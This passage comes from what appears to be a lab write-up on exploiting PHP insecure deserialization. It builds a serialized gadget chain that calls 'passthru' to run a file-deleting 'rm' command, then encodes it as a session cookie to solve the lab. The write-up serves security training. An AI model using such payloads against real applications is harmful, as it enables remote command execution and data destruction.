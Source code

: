     - Keep in mind that the php serialized object is a binary format meaning it may contain some null characters. So if we copy-paste the clear text part from the above output:
        
        ```php
        O:14:"CustomTemplate":2:{s:33:"CustomTemplatedefault_desc_type";s:26:"rm /home/carlos/morale.txt";s:20:"CustomTemplatedesc";O:10:"DefaultMap":1:{s:20:"DefaultMapcallback";s:8:"passthru";}}
        ```
        
        ⇒ It won’t work, if we want to copy-paste the clear text version, we need to edit it manually and the final payload will be something like this:
        
        ```php
        O:14:"CustomTemplate":2:{s:17:"default_desc_type";s:26:"rm /home/carlos/morale.txt";s:4:"desc";O:10:"DefaultMap":1:{s:8:"callback";s:8:"passthru";}}
        ```
        
- After that, we encode it by base64 and url encoded the output to easily be able to copy-paste it as the session cookie. So we copy this part from the output above:
    
    ```php
    TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjI6e3M6MzM6IgBDdXN0b21UZW1wbGF0ZQBkZWZhdWx0X2Rlc2NfdHlwZSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO3M6MjA6IgBDdXN0b21UZW1wbGF0ZQBkZXNjIjtPOjEwOiJEZWZhdWx0TWFwIjoxOntzOjIwOiIARGVmYXVsdE1hcABjYWxsYmFjayI7czo4OiJwYXNzdGhydSI7fX0%3D
    ```
    
     and paste it here in the session cookie. Then click apply and send. The lab is solved!
    
    ![Untitled](Penetration%20Test%20Report%20Software%20and%20Data%20Integrit%209ca4bdff27b647eb9f0534d277e5b07e/Untitled%203.png)